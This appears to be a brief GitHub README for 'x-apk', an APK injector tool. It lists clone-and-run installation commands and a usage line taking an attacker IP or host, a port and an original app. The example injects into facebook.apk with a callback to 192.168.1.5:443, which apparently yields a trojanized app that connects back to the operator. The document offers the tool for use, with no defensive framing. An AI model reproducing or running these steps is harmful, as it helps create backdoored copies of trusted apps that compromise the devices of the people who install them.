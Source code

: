 # x-apk
# installation:
      git clone https://github.com/sirai-ayoub/apk_injector.git
      chmod 777 apk_injector/x-apk.py && apk_injector/x-apk.py

# Usage:
      apk_injector/x-apk.py -h=<ip or host> -p=<port> -x=<original apk>

# Example:
      apk_injector/x-apk.py -h=192.168.1.5 -p=443 -x=facebook.apk

# screenshot:
![screenshot from 2018-08-31 20-12-28](https://user-images.githubusercontent.com/42876999/44940039-f2299d00-ad81-11e8-8d09-607862a74cfc.png)
